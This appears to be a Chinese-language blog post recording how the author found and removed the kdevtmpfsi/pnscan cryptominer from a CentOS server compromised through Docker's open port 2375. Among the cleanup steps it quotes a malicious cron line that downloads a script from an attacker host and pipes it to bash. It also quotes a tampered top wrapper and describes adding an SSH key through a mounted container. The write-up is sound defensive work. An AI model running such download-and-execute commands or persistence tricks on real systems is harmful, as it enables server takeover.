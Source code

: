 ```yaml
---
title: pnscan挖矿病毒排查过程记录
tags: 
  - docker
  - gitlab
  - ssh
  - hexo
categories: 
  - Linux
  - 网络安全
---
```


> 记一次服务器被挖矿病毒攻击问题排查

- 原因：因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒kdevtmpfsi，pnscan

- 现象：CPU占用拉满，定时任务向6379端口持续发送信息

1. 首先想到使用top命令排查进程，发现top无法使用，显示`permission denied` ，

   ```shell
   [root@VM-16-4-centos bin]# top
   -bash: /usr/bin/top: Permission denied
   ```

2. 查询后获悉`top` 命令被篡改为如下

   ```shell
   [root@VM-16-4-centos bin]# cat /usr/bin/top
   #!/bin/bash
   top.lanigiro $@ | grep -v 'ddns\|scan'
   ```

3. 拷贝原有top脚本，通过ftp传输，发现无法覆盖`top` 文件，使用 `lsattr` 命令查看文件属性，果然为被设置为了 `-i`  不可修改：

   ```shell
   [root@VM-16-4-centos bin]# lsattr /usr/bin/top
   ----i--------e-- /usr/bin/top
   ```

4. 打算使用`chattr` 命令删除`-i` 参数，发现`chattr` 命令不可用，也被删除掉了

   ```shell
   [root@VM-16-4-centos bin]# chattr
   -bash: chattr: command not found
   ```

5. 只能重新安装`chattr` 命令，查看安装包版本，先删除再安装`e2fsprogs` 包

   ```shell
   [root@VM-16-4-centos bin]# rpm -qa|grep e2fsprogs
   e2fsprogs-libs-1.42.9-19.el7.x86_64
   e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum remove e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum install e2fsprogs-1.42.9-19.el7.x86_64
   ```

6. 重装后`chattr` 命令终于可用，修改文件属性，使用FTP工具传输覆盖`top` 命令，仍然无法使用top命令，于是改安装`htop` 命令

   ```shell
   yum -y install htop
   ```

7. 使用`htop` 命令查看，发现挖矿病毒，继续排查

![1654084303957](../blog-assets/pnscan病毒排查/1654084303957.png)

8. 查看定时任务，并停止，发现cron脚本也被感染无法更改（心肺停止...）

   ```shell
   [root@VM-16-4-centos bin]# crontab -l
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   [root@VM-16-4-centos bin]# crontab -e
   
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   ```

9. 修改`cron` 文件属性，修改后删除定时任务，再使用`htop` 命令查看，CPU占用明显降低，仅剩  **pnscan** 病毒

   ```shell
   [root@VM-16-4-centos bin]# chattr -iae /var/spool/cron/root 
   [root@VM-16-4-centos bin]# lsattr /var/spool/cron/
   -------------e-- /var/spool/cron/root
   [root@VM-16-4-centos bin]# crontab -e
   crontab: installing new crontab
   
   ```

10. 但修改后仍然无法删除定时任务脚本只能编辑，原来可能存在隐藏文件，`lsattr -a` 命令查看果然有，同样`chattr` 修改对应文件属性

    ```shell
    [root@VM-12-14-centos cron]# lsattr -a
    ----ia-------e-- ./.
    -------------e-- ./..
    ---------------- ./root
    [root@VM-12-14-centos cron]# chattr -iae .
    [root@VM-12-14-centos cron]# chattr -iae ..
    [root@VM-12-14-centos cron]# lsattr -a
    ---------------- ./.
    ---------------- ./..
    ----------------./root
    ```

11. 去除pnscan，用htop命令查看 pnscan进程位置，删除对应文件，至此pnscan病毒搞定

    ```shell
    [root@VM-12-14-centos bin]# rm -f pnscan
    ```

12. 终于发现被攻击原因，因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒，具体原因分析如下：

- docker开放2375端口用于远程管理容器，而容器本身可以挂载服务器目录；
- 因此攻击者通过2375端口，拉取做好的镜像，启动容器时挂载`~/.ssh` 目录 在 `authorized_keys` 中添加了攻击者的公钥，至此，攻击者获得服务器控制权，进而执行病毒脚本。
  
- 参考：https://www.techug.com/post/do-a-hacker-invade-a-server.html

> 后记：外网环境应通过`TLS`方式开启docker远程端口访问，配置细节可参考 [docker环境及常用镜像安装](/2022/06/06/docker环境安装/)  